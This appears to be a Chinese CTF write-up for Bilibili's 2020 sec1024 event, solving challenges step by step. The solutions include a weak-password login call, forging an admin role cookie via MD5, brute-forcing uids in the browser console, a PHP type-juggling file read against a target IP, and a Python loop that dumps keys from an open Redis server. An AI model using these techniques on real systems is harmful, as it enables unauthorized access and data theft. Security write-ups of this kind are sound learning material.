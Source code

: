 # 2020-bilibili-sec1024

>本记录由 TePuint Club 赞助完成

活动地址：[sec1024](https://security.bilibili.com/sec1024/)

## 第一题

打开DevTool审查元素，在`<input>`中找到data

## 第二题

修改浏览器的User-Agent为 `bilibili Security Browser`，然后刷新网页，就可以看到flag了。

## 第三题

就是弱口令，完全靠猜，用户名 `admin` ，密码 `bilibili` 。

或者直接在Console中输入：

```javascript
$.ajax({
    url: "api/ctf/3",
    type: "post",
    contentType: "application/json",
    dataType: "json",
    data: JSON.stringify({
        username: "admin",
        passwd: "bilibili",
    }),
    success: function (data) {
        console.log(data.data)
    }
})
```

## 第四题

cookies中 `role` 对应的值为user的MD5，所以将这个值改为 `Administration` 的MD5，即 `7b7bc2512ee1fedcd76bdc68926d4f7b` ，然后刷新网页，就可以看到flag了。

## 第五题

使用Console向后穷举，我也不知道那个uid哪里来的。

在Console中输入：

```javascript
get(100336889) //这里每个人有可能不一样，请在网页中查找
function get(uid) {
    $.ajax({
        url: "api/ctf/5?uid=" + uid,
        type: "get",
        success: function (data) {
            if (data.code == 200) {
                console.log(data.data)
            } else {
                get(uid + 1)
            }
        }
    })
}
```

## 第十题

你没看错，这里是第十题，但这一题的入口在第六题，也就是第六题做完是第十题的答案。

>注意：每个人的靶机不一定相同，请注意更换IP

1. 访问"http://120.92.151.189/blog/test.php"
2. 将网页中所有的内容复制粘贴到Console中，获取str1和str2
```javascript
 var str1 = "\u7a0b\u5e8f\u5458\u6700\u591a\u7684\u5730\u65b9";
 var str2 = "bilibili1024havefun";
 console.log()
```
3. 将str1进行Unicode转中文得到 `程序员最多的地方` 即 GitHub
4. 在GitHub搜索str2,即"bilibili1024havefun"
5. 在搜索结果中找到与end有关的那个 [传送门](https://github.com/interesting-1024/end/blob/main/end.php)
6. 分析PHP文件,id为不含1的数组，路径不清楚要猜
```php
 <?php

    //filename end.php

    $bilibili = "bilibili1024havefun";

    $str = intval($_GET['id']);
    $reg = preg_match('/\d/is', $_GET['id']);

    if (!is_numeric($_GET['id']) and $reg !== 1 and $str === 1) {
        $content = file_get_contents($_GET['url']);

        //文件路径猜解
        if (false) {
            echo "还差一点点啦～";
        } else {
            echo $flag;
        }
    } else {
        echo "你想要的不在这儿～";
    }
    ?>
```
7. 构造URL，使满足 `!is_numeric($_GET['id']) and $reg !== 1 and $str === 1`
8. 猜URL，访问 "http://120.92.151.189/blog/end.php?id[]=&url=./flag.txt"得到一张图片
9. 图片另存为，并用npp或者记事本打开,就可以在文件末尾找到flag

## 第八题

在做本题时可能会遇到redis连接不上的问题，我们使用Python脚本进行轰炸

首先安装redis库：`!pip3 install redis`

接着执行以下Python脚本：

```python
import redis

serve = '45.113.201.36' #设置服务器IP地址

print('Connecting the Server ('+serve+') ...')
while True:
    try:
        r = redis.StrictRedis(host=serve, port=6379)
        keys = r.keys()
        print('We got the flag:')
        for key in keys:
            value = r.get(key)
            print(key, value)
        break
    except:
        print('Error: Connection timed out')
        pass
```